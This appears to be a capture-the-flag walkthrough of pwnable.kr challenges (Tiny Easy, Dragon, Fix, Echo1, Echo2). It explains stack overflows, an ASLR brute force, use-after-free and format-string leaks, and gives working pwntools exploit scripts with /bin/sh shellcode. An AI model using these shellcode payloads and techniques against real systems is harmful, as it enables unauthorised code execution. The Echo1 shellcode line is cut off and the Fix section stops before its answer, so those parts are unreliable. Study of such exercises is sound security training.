 
# PwnableWalkthrough

### Tiny Easy - Level 6

Now we have a program which contains just 4 lines of assembly instructions:

```assembly
0x8048054:   pop    eax
0x8048055:   pop    edx
0x8048056:   mov    edx,DWORD PTR [edx]
0x8048058:   call   edx
```
It pops twice, and jumps to where the pointer points to.
Since that at the beginning of each program the os is pushing argv + env to the stack,
the program will call `argv[0]`.
So now we have found a way to jump to any location we want.
The problem in this challenge is that we have some kind of alsr, which randomizes our stack.
So that means we don't have a constant address of where the stack start, so we can't just jump there.
My way of bypassing that is by using brute force.
We fill all of the stack with nops, by adding a lot of environment variables that will be pushed to the stack.
and after that there will be our shellcode.
we can try to run the program a lot of times and jump to an address we decide.
If the address is by any chance in the stack, we will reach our shellcode and get a shell.
A good way to choose the address is by running the program in `gdb`, and looking at where `argv` is.
(it doesn't mean that it will be always that address, but it means that its possible)

Exploit:

```python
from pwn import *

shellCode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'

path = "tiny_easy"
address = '\x69\x69\xb0\xff'
envv = {str(i):("\x90" * 1000 + shellCode) for i in range(200)}

for i in range(400):

        temp = process(argv=[address], executable=path, env=envv)
        try:
                temp.recvline(timeout=1)
                temp.interactive()
                break
        except Exception as e:
                temp.close()
                print(i, "failed")
                print(e)
```


### Dragon - Level 10

We have a cool program, which lets us fight a dragon.
I have put the binary in IDA, found some things about the program:
![image](https://user-images.githubusercontent.com/56035342/214085600-37b910fe-70eb-4dbd-883c-c9803358de19.png)

The program calls the attack function, and checks if the returned value is 0. if it does, it will make us winners.
Lets see what can we do in order to win:
First of all, I noticed that I can switch between the Mom dragon and the Baby dragon each time I die.

![image](https://user-images.githubusercontent.com/56035342/214086610-54b3c3d2-e217-4ab3-947e-d5d6c1978b81.png)

This is the Priest Attack.
We can see that it will ask us for input, until the user dies (green), or the dragon dies(red).
Our job is to win, and kill the dragon.
We can see something interesting in the while last loop.
it makes the pointer a char pointer, and then dereferences it , and checks if the health is bigger than zero.
But lets keep in mind that char can only contain 256 numbers, (-128 to 128)
so if the health of the dragon will be greater than 128, we will get an overflow, and win! (it gets bigger by 4 each move)
The best way to do it is by losing in purpose to the Mom dragon , and fight the baby dragon (it has less damage), this time we will have the most turns.
After that, the user will choose the Priest, and they will just pick HolyShield until they don't have mana, and then they will pick Clarity to refresh the mana.
Then , after we win, a free will be done to the dragon object, and then it will malloc a new block with our input!
![image](https://user-images.githubusercontent.com/56035342/214087910-193897b2-8ad4-4f76-bf5e-ddfa71c19a5d.png)
So we can just replace the old function reference to the system call, and we will get a shell!

`(python2 -c "print('1\n1\n1\n1\n3\n3\n2\n3\n3\n2\n3\n3\n2\n3\n3\n2\n' + '\xbf\x8d\x04\x08\n')"; cat) | nc pwnable.kr 9004`


### Fix - Level 9

We have a simple c program, which simulates buffer overflow with a shellcode from shell-storm.
The only thing we can do is to change 1 byte of the shellcode to whatever we want, in order to make it work.
After debugging the binary, I noticed that all the shellcode gets overwritten after this assembly line:

```assembly
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax -----> this line
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

```

This happens because the shellcode is stored in the stack, and the `push` command is writing stuff to the stack, so it overwrites the next commands.
Which means if we will be able to just change `esp` to some random location, we will be able to push to the stack normally without overriding next instructions.
Since we can only change 1 byte of the shellcode, the only 1 byte command we can use is pop.
So to change esp we would have to do `pop esp`, which is `0x5c`
We can for example change one of the pushes, since they are 1 byte aswell.
One thing to notice is that we normally can't do things like `xor esp, esp`, `pop esp`, because esp is a special register.
In order to be able to do it we would have to run the command `ulimit -s unlimited`.
So the answer will be:

### Echo1 - Level 12

We have a program which asks a user for a name, and then a string and it echos the string.
the vulnerability in this program is that when we get input from the user, we can write after the string, since the fgets writes to many characters:
![image](https://user-images.githubusercontent.com/56035342/212696261-e353434b-a8be-4d17-89ca-c401835d1b11.png)
So we can understand that the challenge is some kind of a bufferoverflow.
After doing what we usually do when facing a bufferoverflow vulnerability,
I have found that the return address is stored 40 characters after the string(32 (size of buffer) + 8(ebp))
Another important thing to notice is that when we enter the name, it takes the first 4 bytes and puts it in the variable `id`, which is stored in `0x6020A0`, which means we can control a variable at a location we know, which is a really powerfull thing(spoiler: because we can jmp to that location and run an instruction we want)
In order to exploit those vulnerabilies, I have done the following things:
First of all, I compiled the command `jmp rsp`, which jumps to the value of rsp. it gave me `\xff\xe4`.
We need that specific command, beacause its the exact location of the end of the buffer, where our shellcode is located.
Now we need 40 characters to reach to the return pointer.
Then we need to specify an address which our code will jump to when the `ret` instruction is called.
I entered the address of id(`0x6020A0`) because then it will execute the command I entered, which is `jmp rsp`.
Then I have specified our shellcode, which will execute `/bin/sh` and give us a shell.
The final exploit code is as follows:

```py
from pwn import *

ssh=remote('pwnable.kr',9010)
shellCode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x>
jmpRSP = "\xff\xe4"
space = '\x90' * 40
keyAddress = '\xa0\x20\x60\x00\x00\x00\x00\x00'

ssh.sendline(jmpRSP)
ssh.sendline("1")
ssh.sendline(space + keyAddress + shellCode)
ssh.interactive()

```

### Echo2 - Level 13

This time we have the same program as `echo`, but the difference now is that we can only choose `FSB` or `UAF` in the menu.
One important thing we need to notice, is that once we press `4` for exit, it will instanstly free the `o` variable, which is storing the echo function.
We can use that for our own advantage, since we can trigger a free, and the program will still be ran (if we press n)
This way we can override the `greetings` function stored in the `o` variable, and jump to any location we want.
We can do it by using the `UAF` option, since it allocates a chunk in the heap, so if there is a free chunk there, we will be able to control the `o` varible.
Then I entered a shellcode in the name (because then it will be in the stack), and then I used the `FSB` in the menu, to leak stack addresses.
I noticed that in the 10th paramater, there is a pointer to the stack which is 32 bytes after our input.
So if we substract 32 from that number, and override the `greetings` function with it, we will run the shellcode specified in the name!
#Final exploit:


```py
from pwn import *

p=remote('pwnable.kr',9011)

shellCode="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
print(p.recv().decode())

#Sending username
p.sendline(shellCode)

print(p.recv())

#trigger free
print("Triggering free...")
p.sendline(b"4")
print(p.recv().decode())
p.sendline(b"n")

print("Getting stack addresses...")
print(p.recv().decode())
p.sendline(b"2")
print(p.recv().decode())
p.sendline(b"%10$p")
p.recv()
stack_addr = p.recv().decode().split("\n")[0]


print("stack leaked address is", stack_addr)

shellCodeAddr = p64(int(stack_addr, 16) - 32)

print("shellcode leaked addr: ", hex(u64(shellCodeAddr)))
p.sendline(b"3")

#changing the greeteings to jmp to our shellcode
p.sendline((24 * b"\x90") +  shellCodeAddr)

p.interactive()


```





